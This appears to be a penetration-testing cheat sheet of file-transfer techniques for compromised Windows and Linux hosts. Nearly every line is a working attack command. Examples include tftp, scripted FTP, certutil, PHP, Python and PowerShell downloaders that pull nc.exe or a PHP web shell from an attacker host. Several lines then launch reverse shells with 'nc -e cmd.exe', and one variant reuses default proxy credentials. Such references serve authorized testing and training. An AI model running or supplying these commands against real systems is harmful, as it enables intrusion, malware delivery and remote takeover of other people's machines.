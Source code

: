 ​
# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
FTP
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve
​
# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt
​
# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
CertUtil
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
PHP
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
Python
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
HTTP: Powershell
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');
​
# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
HTTP: VBScript
Copy and paste contents of  into a Windows Shell and then:
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
HTTP: Linux
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
NetCat
# Attacker
nc -l -p 4444 < /tool/file.exe
​